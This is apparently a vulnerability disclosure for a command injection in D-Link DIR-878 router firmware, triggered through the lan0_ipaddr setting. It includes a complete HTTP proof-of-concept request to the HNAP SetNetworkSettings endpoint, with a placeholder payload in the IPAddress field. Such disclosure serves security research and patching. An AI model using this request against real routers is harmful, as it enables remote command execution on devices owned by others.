

## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `lan_wan_ip_conflict_handler` of the component Web Interface `rc`, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `lan_wan_ip_conflict_handler`. Attackers can control `v11` by setting the `lan0_ipaddr` , then the program will pass `v11` to complete the system call without any check.


Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `lan0_ipaddr`.

### PoC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 452
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/NetworkSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>payload</IPAddress>
	<SubnetMask></SubnetMask>
	<DeviceName></DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart></IPRangeStart>
	<IPRangeEnd></IPRangeEnd>
	<LeaseTime></LeaseTime>
	<Broadcast></Broadcast>
	<DNSRelay></DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

